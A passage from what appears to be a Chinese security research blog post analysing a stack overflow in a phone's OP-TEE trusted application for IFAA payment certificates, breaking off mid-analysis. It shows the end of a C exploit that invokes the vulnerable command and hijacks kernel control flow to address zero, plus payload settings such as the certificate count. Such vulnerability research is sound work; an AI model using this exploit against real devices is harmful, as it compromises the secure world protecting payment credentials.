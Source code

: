 ```c
    /* --------------------------------  sub_80203D4: process_ifaa_cmd  ---------------------------  */
    char * output = malloc(0x1000);
    *(int *)(output + 4) = 0x10;		// 0x80203F8: v6 = output[1]; if(v6 == 0) v8 = "Invalid param";

    op.params[1].tmpref.buffer = output;
    op.params[1].tmpref.size   = 0x1000;

    printf("[+] trigger bug !\n");
    r = TEEC_InvokeCommand(&sess, 0, &op, NULL);
    printf("[+] invoke mlipay : %d\n",r);

    debug(op.params[0].tmpref.buffer,0x100);
    printf("---------------------------\n");
    debug(op.params[1].tmpref.buffer,0x100);

    return 0;
}
```

编译上传执行，exp在执行TEEC_InvokeCommand后卡住，不一会后手机会重启，重启后查看tee日志，即可看到成功将OP-TEE Kernel控制流劫持到0地址：


![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/hijack.png)


### (7) 解析细节

但其实刚才的exp有两个问题，首先是如果使用非零的数据初始化输入内存，就会在完成控制流劫持前直接崩溃，即无法完成任意地址的控制劫持，以上的exp只能将控制流劫持到0地址：

```c
memset(payload,0,0x1000);
```

另外是解析证书的数量大于等于6时才能成功控制流劫持到0：

```c
*(int *)   (payload + 0x38) = 6;		// number of cert !!!
```

而按照漏洞函数sub_801F27C的逆向结果分析，栈上v29预留的空间为`qword[28]`，循环中指针每轮按qword加7，因此解析预期的最多轮数为4轮，所以第5轮证书解析就会发生栈溢出，ARM64的返回地址在每个函数栈顶，因此第5轮证书解析应该就会覆盖父级函数的返回地址：

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/re7.png)

但如果将证书数量设置为5，则控制流劫持失败，会崩溃在其他位置：

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/buglog.png)

并且议题PPT中利用也是用了6轮解析，那这是为什么呢？

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/6round.png)

要回答这两个问题，需要仔细的逆向漏洞函数sub_801F27C中的while循环，经过逆向，这段循环中一轮的解析逻辑大概如图：
